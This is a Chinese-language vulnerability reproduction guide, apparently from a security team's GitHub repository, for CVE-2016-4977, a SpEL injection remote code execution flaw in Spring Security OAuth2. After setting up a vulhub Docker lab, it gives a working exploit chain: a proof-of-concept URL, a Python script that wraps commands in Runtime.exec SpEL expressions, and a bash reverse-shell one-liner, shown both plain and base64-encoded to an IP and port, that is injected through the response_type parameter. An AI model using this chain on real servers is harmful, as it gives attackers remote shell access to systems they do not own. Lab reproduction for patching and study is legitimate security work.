

# CVE-2016-4977

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Spring Security OAuth2 远程命令执行


# 0x01 漏洞简介

Spring Security OAuth2是为Spring框架提供安全认证支持的一个模块。Spring Security OAuth2处理认证请求的时候如果使用了whitelabel views，response_type参数值会被当做Spring SpEL来执行，攻击者可以在被授权的情况下通过构造response_type值也就是通过构造恶意SpEL表达式可以触发远程代码执行漏洞。故是在需要知道账号密码的前提下才可以利用该漏洞。

# 0x02 影响版本

```
2.0.0-2.0.9
1.0.0-1.0.5
```

# 0x03 环境搭建

使用vulhub快速搭建漏洞环境

```
cd vulhub/spring/CVE-2016-4977
```

执行以下命令来启动 Spring Security OAuth 应用程序。

```
docker compose up -d
```

服务器启动后，浏览`http://your-ip:8080/`即可看到其主页。

# 0x04 漏洞复现

## POC

```
http://your-ip:8080/oauth/authorize?response_type=${2*2}&client_id=acme&scope=openid&redirect_uri=http://test
```



账号密码：admin/admin

可以看到，SpEL 表达式`${2*2}`已成功执行并返回结果。


## EXP

地址：[https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py)

```python
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)
```

构造反弹shell的命令

```bash
bash -i >& /dev/tcp/your-vps/vps-port 0>&1
```

进行base64编码


编码后进行拼接

```bash
bash -c {echo,base64编码内容}|{base64,-d}|{bash,-i}
```

如下：

```bash
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwLjE0MS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```

使用上述提供的exp：


将生成后的payload拼接至下方地址

```bash
http://your-ip:8080/oauth/authorize?response_type=payload代码内容&client_id=acme&scope=openid&redirect_uri=http://test
```

拼接完毕后访问


反弹shell成功

